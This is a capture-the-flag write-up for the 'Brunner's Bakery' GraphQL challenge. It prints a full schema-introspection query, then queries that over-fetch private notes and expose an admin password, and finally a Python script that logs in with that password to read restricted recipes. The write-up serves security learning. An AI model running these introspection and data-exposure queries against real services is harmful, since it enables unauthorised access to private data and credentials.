 # Brunner's Bakery

```text
Recent Graphs show that we need some more Quality of Life recipes! Can you go check if the bakery is hiding any?!
```

points: `100`

solves: `315`

author: `Quack`

---

![image](../images/4.png)

So, this could be a GraphQL Injection problem

Using the following payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection):

```python
payload = {
  "query": """
    query {
      __schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}
    }
    """
}
```

In the [response](../images/schema_response.json), we notice `secretRecipes`. Trying the payload similar to the `publicRecipes` one:

```python
payload = {
  "query": """
    query {
      secretRecipes {
        name
        description
        author {
          displayName
        }
        ingredients {
          name
        }
      }
    }
    """
}
```

But we get 'Access denied. admin only' error :(

There is a `login` function (mutation) as seen in the schema output; it requires username and password

Let's try the interesting fields of the Recipe, User, Ingredient types (found from the schema output)

```python
payload = {
  "query": """
    query {
      publicRecipes {
        name
        description
        author {
          id
          username
          displayName
          email
          notes
          privateNotes
        }
        ingredients {
          name
        }
      }
    }
    """
}
```

The output contains `'notes': 'TODO: Remove temporary credentials... brunner_admin:Sw33tT00Th321?'`

We have the username and password now

```python
import requests

url = "https://brunner-s-bakery.challs.brunnerne.xyz/graphql"

payload = {
    "query": """
    query {
      secretRecipes {
        name
        description
        author {
          id
          username
          displayName
          email
          notes
          privateNotes
        }
        ingredients {
          name
          supplier {
            name
            owner {
              id
              username
              displayName
              email
              notes
              privateNotes
            }
          }
        }
      }
    }
    """
}

payload = {
    "query": """
    mutation {
      login(username: "brunner_admin", password: "Sw33tT00Th321?") {
        token
        user {
          id
          username
        }
      }
    }
    """
}

headers = {
    "Content-Type": "application/json",
}

response = requests.post(url, json=payload, headers=headers)
token = response.json()["data"]["login"]["token"]
headers = {"Content-Type": "application/json", "Authorization": f"Bearer {token}"}

payload = {
    "query": """
    query {
      secretRecipes {
        name
        description
        author {
          id
          username
          displayName
          email
          notes
          privateNotes
        }
        ingredients {
          name
          supplier {
            name
            owner {
              id
              username
              displayName
              email
              notes
              privateNotes
            }
          }
        }
      }
    }
    """
}

response = requests.post(url, json=payload, headers=headers)

try:
    print(response.json())
except Exception:
    print(response.text)
```

**Note**: `secretRecipes` turned out to be a red herring. The payload of `publicRecipes`, with ingredient fields expanded, also exposes the flag:

```python
payload = {
    "query": """
    query {
      publicRecipes {
        name
        description
        author {
          id
          username
          displayName
          email
          notes
          privateNotes
        }
        ingredients {
          name
          supplier {
            name
            owner {
              id
              username
              displayName
              email
              notes
              privateNotes
            }
          }
        }
      }
    }
    """
}
```
